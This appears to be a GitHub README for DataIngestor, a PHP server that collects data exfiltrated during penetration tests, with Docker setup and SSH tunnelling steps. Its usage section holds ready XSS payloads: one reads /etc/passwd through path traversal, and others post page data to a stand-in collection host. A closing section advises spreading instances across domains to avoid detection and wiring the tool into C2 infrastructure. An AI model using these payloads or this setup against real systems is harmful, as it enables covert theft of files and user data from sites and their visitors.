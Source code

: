 # DataIngestor

A powerful data collection and management system designed for offensive security operations, capable of ingesting, storing, and displaying data submissions from various sources during penetration tests and security assessments.

## Overview

DataIngestor provides a lightweight PHP-based web interface for collecting and managing data exfiltrated during security testing. It features IP-based access control, SQLite database storage, and a responsive UI for data display and management. This tool is particularly valuable for offensive security engineers to collect data from exploited XSS, SSRF, or other client-side vulnerabilities.

## Features

- **Data Capture**: Collect arbitrary data via HTTP POST requests
- **IP Filtering**: Restrict access by IP address and CIDR ranges
- **Automatic IP Logging**: Track the source of all submissions
- **Base64 Detection**: Automatic detection and decoding of Base64-encoded data
- **Real-time Updates**: Automatic refresh when new data is received
- **Docker Support**: Easy containerized deployment
- **Proxy Configuration**: Support for remote tunneling scenarios
- **Responsive UI**: Mobile-friendly interface with data management capabilities

## Docker Setup

### Prerequisites

- Docker and Docker Compose installed on your system
- Basic understanding of networking and port forwarding

### Quick Start

1. **Clone the repository**:
   ```
   git clone https://yourrepository.git/DataIngestor
   cd DataIngestor
   ```

2. **Configure Access Control**:
   Create or modify the `306d717c3f592af0186ed31e2f056a7d/config.php` file:
   ```php
   <?php
   // Define the allowed CIDR range and IP addresses
   $allowedCIDR = "0.0.0.0/0";  // Allow all IPs (for testing only)
   $allowedIPs = ["127.0.0.1", "YOUR_PUBLIC_IP"];  // Add specific IPs
   ?>
   ```

3. **Start the Docker container**:
   ```
   docker-compose up -d
   ```

4. **Access the application**:
   Open your browser and navigate to `http://localhost:8080`

### Docker Configuration Options

The `docker-compose.yml` file can be customized:

```yaml
version: '3'

services:
  dataingestor:
    build:
      context: .
      dockerfile: Dockerfile
    ports:
      - "8080:80"  # Change the left number to modify the host port
    volumes:
      - ./306d717c3f592af0186ed31e2f056a7d:/var/www/html/306d717c3f592af0186ed31e2f056a7d
    environment:
      - APACHE_DOCUMENT_ROOT=/var/www/html
    restart: unless-stopped
    networks:
      - dataingestor-network

networks:
  dataingestor-network:
    driver: bridge
```

## Manual Setup (Without Docker)

If you prefer to run without Docker:

### 1. Create the SQLite Database

```console
cd 306d717c3f592af0186ed31e2f056a7d
sqlite3 data.db "CREATE TABLE entries (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    data TEXT NOT NULL,
    referrer TEXT,
    client_ip TEXT NOT NULL,
    entry_datetime DATETIME
);"
```

### 2. Configure Access Control

Create a `config.php` file as described in the Docker setup section.

### 3. Start the PHP Server

```console
php -S 0.0.0.0:6745 -t ./
```

## Remote Deployment Options

### Using SSH Tunneling

To expose your local instance to the internet (useful during penetration tests):

1. Set up an SSH tunnel to a remote server with a public IP:
   ```
   ssh root@<remote-ip> -R 6745:127.0.0.1:6745
   ```

2. Configure the Nginx proxy on your remote server by copying `proxy.conf` to `/etc/nginx/conf.d/proxy.conf` and restarting Nginx.

### Using Docker on a Remote Server

1. Clone the repository on your remote server
2. Configure `config.php` with appropriate IP restrictions
3. Run `docker-compose up -d`
4. Configure firewall rules to allow inbound connections on port 8080 (or your configured port)

## Usage Examples

### Basic Data Submission

Send data using cURL:

```console
curl -X POST -d "data=exfiltrated_content" http://your-server:8080/
```

### XSS Payload for Data Exfiltration

```html
<img src=x onerror="fetch('/vulnerable/path?file=../../../../etc/passwd')
.then(response => response.text())
.then(data => {
    const f = document.createElement('form');
    f.innerHTML = '<input name=data value=' + btoa(data) + '>';
    f.method = 'post';
    f.action = 'http://your-server:8080/';
    document.body.appendChild(f);
    f.submit();
});">
```

### Extracting Data from JavaScript Objects

```javascript
<script>
fetch('http://your-server:8080/', {
    method: 'POST',
    headers: {'Content-Type': 'application/x-www-form-urlencoded'},
    body: 'data=' + btoa(JSON.stringify(sensitiveObject))
});
</script>
```

## Security Considerations

- In production, restrict IP access to your team's addresses only
- Consider implementing authentication for the web interface
- Use HTTPS when deployed in production environments
- Review the logs regularly for unauthorized access attempts
- The Docker image uses PHP 7.4, which may have security vulnerabilities - update to newer versions for production use

## Troubleshooting

- **403 Forbidden errors**: Check the IP configuration in `config.php`
- **Database errors**: Ensure the database exists and has the correct permissions
- **Connection issues**: Verify that the Docker container is running and ports are correctly mapped
- **Docker build failures**: Check for proper Docker and Docker Compose installation

## For Offensive Security Operations

- Consider setting up with multiple instances across different domains to avoid detection
- Implement a dead drop protocol for sensitive data exfiltration
- Use in conjunction with DNS/ICMP exfiltration tools for complete coverage
- Integrate with your existing C2 infrastructure for centralized data collection